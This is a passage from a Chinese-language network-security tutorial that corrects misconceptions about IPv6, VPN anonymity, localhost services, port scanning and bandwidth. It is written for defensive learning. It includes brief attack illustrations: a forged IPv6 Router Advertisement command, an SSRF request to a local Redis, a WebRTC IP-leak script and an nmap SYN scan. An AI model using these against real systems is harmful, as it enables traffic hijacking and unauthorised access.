抓包是强大的网络分析工具，但在现代网络中其密码嗅探能力已大幅受限。安全从业者应该：

- 理解加密协议的保护机制
- 掌握ARP欺骗等中间人技术的原理（用于防御）
- 在自己的测试环境中练习抓包分析
- 永远不要假设"局域网内抓不到密码"或"抓包一定能看到密码"

---

## 误区十：IPv6比IPv4更安全

### 错误认知

"IPv6是更新的协议，设计时就考虑了安全性，所以IPv6网络天生比IPv4更安全。"

### 事实真相

IPv6的设计确实有一些安全改进，但"新≠安全"。

**IPv6 vs IPv4安全对比：**

| 方面 | IPv4 | IPv6 | 安全影响 |
|------|------|------|----------|
| IPSec | 可选 | 最初强制，后改为可选 | IPv6无实质优势 |
| 地址空间 | 2^32 | 2^128 | 扫描更难但非不可能 |
| NAT依赖 | 普遍 | 不需要 | IPv6无NAT隐匿效果 |
| 地址配置 | DHCP/手动 | SLAAC/DHCPv6 | SLAAC可能泄露MAC地址 |
| 邻居发现 | ARP | NDP | NDP使用ICMPv6，可能被欺骗 |
| 分片处理 | 路由器可分片 | 仅端点分片 | IPv6减少分片攻击面 |
| 过渡机制 | 无 | 6to4/Teredo/ISATAP | 引入新攻击面 |

**IPv6特有的安全风险：**

**风险一：SLAAC地址泄露MAC地址**

IPv6的无状态地址自动配置（SLAAC）默认使用接口的MAC地址生成IPv6地址（EUI-64格式）：

```bash
# 查看IPv6地址，其中包含MAC地址信息
ip -6 addr show
# inet6 fe80::1a2b:3c4d:5e6f:7890/64
# EUI-64地址中嵌入了MAC地址，可能泄露设备信息
```

**风险二：更大的攻击面**

IPv6引入了新的协议和机制，每个都可能成为攻击点：

- NDP（Neighbor Discovery Protocol）：类似ARP，可被欺骗
- MLD（Multicast Listener Discovery）：类似IGMP
- Router Advertisement：可以伪造RA进行DoS或路由劫持

```bash
# 攻击者发送伪造的Router Advertisement
sudo fake_router_advertise -i eth0
# 可以将受害者流量重定向到攻击者
```

**风险三：安全工具支持不足**

许多传统安全工具对IPv6的支持不完善：

- 防火墙规则可能遗漏IPv6流量
- IDS/IPS的IPv6签名库不如IPv4完善
- 日志系统可能不记录IPv6连接

**风险四：双栈风险**

大多数网络同时运行IPv4和IPv6（双栈），但安全策略可能只覆盖IPv4，导致IPv6成为安全盲区：

```bash
# 检查是否有未受保护的IPv6连接
# 如果防火墙只配置了IPv4规则，IPv6流量可能直接通过
sudo ip6tables -L  # 可能是空规则集
```

### 正确理解

IPv6在某些方面有改进（更大的地址空间减少扫描效率、端到端分片减少中间人攻击面），但安全性取决于部署和配置，而不是协议版本。IPv6还需要更多安全意识，因为它可能成为被忽视的攻击面。

---

## 误区十一：VPN让你完全匿名

### 错误认知

"开了VPN之后，我在互联网上就是完全匿名的，没有人能追踪到我。"

### 事实真相

VPN（Virtual Private Network）提供的是**加密隧道**和**IP地址替换**，不是匿名性。

**VPN能做的：**
- 加密客户端到VPN服务器之间的流量
- 隐藏真实IP地址（对目标网站而言）
- 绕过地理限制和网络审查

**VPN不能做的：**



**局限一：VPN提供商 = 新的信任节点**

```text
没有VPN: 用户 ─── ISP ─── 目标网站
有了VPN: 用户 ─── VPN服务器 ─── 目标网站
# VPN提供商取代了ISP的角色，它可以记录所有流量
```

许多"无日志"VPN提供商在执法要求或安全事件后被发现实际保留了日志。

**局限二：DNS泄露**

如果VPN配置不正确，DNS查询可能绕过VPN隧道，直接发送到ISP的DNS服务器：

```bash
# 检测DNS泄露
# 1. 连接VPN
# 2. 访问 https://dnsleaktest.com
# 3. 如果看到的DNS服务器属于ISP而非VPN提供商，则存在DNS泄露

# 手动检查DNS配置
cat /etc/resolv.conf
# 如果nameserver指向ISP的DNS，说明存在泄露
```

**局限三：WebRTC泄露**

浏览器的WebRTC功能可以绕过VPN获取真实IP地址：

```javascript
// 浏览器中运行此脚本可检测WebRTC泄露
const pc = new RTCPeerConnection({iceServers: [{urls: 'stun:stun.l.google.com:19302'}]});
pc.createDataChannel('');
pc.createOffer().then(offer => pc.setLocalDescription(offer));
pc.onicecandidate = event => {
    if (event.candidate) {
        const ip = event.candidate.candidate.match(/(\d+\.\d+\.\d+\.\d+)/)?.[1];
        if (ip) console.log('Real IP:', ip);
    }
};
```

**局限四：浏览器指纹追踪**

VPN更换了IP地址，但浏览器指纹（屏幕分辨率、字体列表、Canvas指纹、WebGL指纹等）不变，网站仍然可以跨IP追踪同一用户。

### 正确理解

VPN是隐私保护工具链中的一环，不是全部。真正的匿名需要：

- VPN/Tor作为网络层保护
- 浏览器隐私配置（禁用WebRTC、使用Tor Browser）
- 避免账户登录关联
- 安全的操作系统（Tails、Whonix）
- 良好的操作安全意识（OPSEC）

---

## 误区十二：127.0.0.1绝对安全

### 错误认知

"服务绑定在127.0.0.1（localhost），只有本机能访问，所以不需要考虑安全。"

### 事实真相

本地服务面临的安全风险包括：

**风险一：同机其他用户/进程可以访问**

在多用户系统上，任何本地进程都可以连接到127.0.0.1上监听的服务：

```bash
# 服务绑定在127.0.0.1:3306（MySQL默认）
# 同一机器上的任何用户/进程都可以连接
mysql -h 127.0.0.1 -u root -p
```

**风险二：SSRF攻击利用本地服务**

如果Web应用存在SSRF漏洞，攻击者可以让Web服务器访问本地服务：

```bash
# 通过SSRF访问本地Redis
curl "http://webapp.com/fetch?url=http://127.0.0.1:6379/INFO"
# 如果Redis未设置密码，攻击者可以获取所有数据
```

**风险三：DNS Rebinding绕过**

攻击者可以通过DNS Rebinding技术，让浏览器在"正常"访问中连接到localhost：



**风险四：本地服务的横向提权**

如果攻击者已经获得了低权限shell，本地监听的服务可能成为提权跳板：

```bash
# 发现本地监听的服务
ss -tlnp | grep 127.0.0.1
# 如果某个服务存在漏洞且以高权限运行
# 攻击者可以利用它提权
```

### 正确理解

本地服务也需要安全措施：

- 设置强认证（密码、Token、证书）
- 实施最小权限原则
- 在防火墙规则中限制本地访问范围
- 定期审计本地监听的服务
- 对于Web应用，防范SSRF和DNS Rebinding

---

## 误区十三：端口扫描等于攻击

### 错误认知

"有人扫描了我的服务器端口，这是在攻击我！"

### 事实真相

端口扫描是**信息收集**行为，不是攻击。它类似于检查一栋建筑有多少扇窗户，而非破窗而入。

**端口扫描的技术本质：**

```bash
# TCP SYN扫描：发送SYN包，根据响应判断端口状态
nmap -sS 192.168.1.1
# 开放端口：返回SYN/ACK → 端口开放
# 关闭端口：返回RST → 端口关闭
# 过滤端口：无响应 → 被防火墙丢弃
```

扫描不会修改目标系统的任何数据或状态（TCP SYN扫描甚至不完成三次握手），因此它不是攻击。

**但是，扫描是攻击的前奏：**

```text
网络攻击的典型流程：
侦察（Reconnaissance）→ 扫描（Scanning）→ 获取访问（Gaining Access）→ 维持访问（Maintaining Access）→ 清除痕迹（Covering Tracks）
```

扫描是"攻击准备"阶段，虽然本身无害，但确实表明有人在研究你的系统。

**合法的扫描场景：**

- 安全团队进行内部审计
- 渗透测试（有授权）
- 合规性检查
- 云服务提供商的安全扫描
- Shodan/Censys等互联网扫描项目

### 正确理解

端口扫描不是攻击，但应引起警觉。正确的应对方式：

- 部署IDS/IPS记录和分析扫描行为
- 关闭不必要的端口和服务
- 使用fail2ban等工具阻止频繁扫描的IP
- 对于重要系统，配置端口 knocking 或零信任访问

---

## 误区十四：带宽等于网速

### 错误认知

"我的宽带是1000Mbps，下载速度应该有1000MB/s。"或"网络卡了一定是带宽不够。"

### 事实真相

带宽（Bandwidth）和网速（实际吞吐量/体验）是完全不同的概念。

**带宽 vs 实际速度：**



**关键数据：**

| 因素 | 影响 | 示例 |
|------|------|------|
| 协议开销 | 减少3-5% | 1000Mbps → ~950Mbps有效 |
| TCP窗口限制 | 高延迟时严重 | RTT=100ms时，TCP吞吐量≈窗口大小/RTT |
| 丢包率 | 非线性影响 | 1%丢包可导致吞吐量下降50%+ |
| 服务器限速 | 直接限制 | 云服务商限制单连接速度 |
| DNS解析 | 影响首次连接 | DNS慢导致"网速慢"的感觉 |

**常见误解场景：**

```bash
# 用户：我1000Mbps宽带，为什么Speedtest只有500Mbps？
# 可能原因：
# 1. WiFi限制（WiFi 5单流理论867Mbps，实际约400-500Mbps）
# 2. 运营商共享带宽（小区共享总带宽）
# 3. 测试服务器本身带宽限制
# 4. 网线质量（Cat5e在长距离可能达不到千兆）

# 用iperf3测试真实内网带宽
# 服务端
iperf3 -s
# 客户端
iperf3 -c 192.168.1.1 -t 30
```

**网络卡顿≠带宽不够：**

- **高延迟**（RTT大）：打开网页慢，但带宽可能很充足
- **丢包**：视频卡顿、游戏延迟，通常由网络拥塞或WiFi干扰导致
- **DNS慢**：域名解析耗时长，感觉"上网慢"
- **服务器响应慢**：服务端处理慢，与客户端带宽无关

### 正确理解

带宽是容量上限，实际体验取决于延迟、丢包、协议效率等多个因素。网络优化应先定位瓶颈（用traceroute、ping、iperf3等工具），再有针对性地解决。

---

## 误区汇总与防御速查表

| 误区 | 核心纠正 | 防御措施 |
|------|----------|----------|
| HTTPS绝对安全 | 加密≠安全，元数据仍暴露 | HSTS、禁用弱加密、DoH |
| NAT=防火墙 | NAT是地址转换，非安全机制 | 部署有状态防火墙、禁用UPnP |
| 局域网安全 | 内部威胁和横向移动同样危险 | 加密通信、802.1X、NAC、DAI |
| 防火墙阻止一切 | 不检查应用层和加密流量 | 纵深防御：WAF+IDS+EDR |
| MAC过滤保护WiFi | MAC可伪造，明文传输 | WPA3、强密码、禁用WPS |
| ping不通=不在线 | ICMP可被禁用 | 多方法组合探测 |
| DNS/UDP不可靠 | 应用层保证可靠性 | DoH/DoT、DNSSEC |
| 私有IP安全 | 不在公网路由≠安全 | 零信任、基于身份的访问控制 |
| 抓包看所有密码 | 加密协议有效保护 | 使用加密协议、证书固定 |
| IPv6更安全 | 新≠安全，有新攻击面 | 双栈统一安全策略 |
| VPN完全匿名 | VPN提供商可以看到流量 | VPN+Tor+隐私浏览器 |
| 127.0.0.1安全 | 本机进程和SSRF可访问 | 强认证、防SSRF |
| 扫描=攻击 | 扫描是信息收集 | IDS记录、关闭多余端口 |
| 带宽=网速 | 延迟、丢包同样影响 | 定位瓶颈再优化 |

---

## 本节小结

网络认知误区的根源在于**对概念的过度简化和对安全边界的错误假设**。作为安全研究者，我们需要：

1. **深入理解协议设计**：知道一个协议能做什么、不能做什么，而不是停留在表面认知
2. **区分"设计目的"和"附带效果"**：NAT的地址隐藏是附带效果，不是安全设计
3. **理解纵深防御原则**：没有任何单一措施能提供完整安全
4. **重视内部威胁**：安全边界不仅在网络边缘，更在每一个终端和用户
5. **保持怀疑态度**：对任何"绝对安全"的声明保持警惕

安全不是一个状态，而是一个持续的过程。正确的认知是有效防御的第一步。
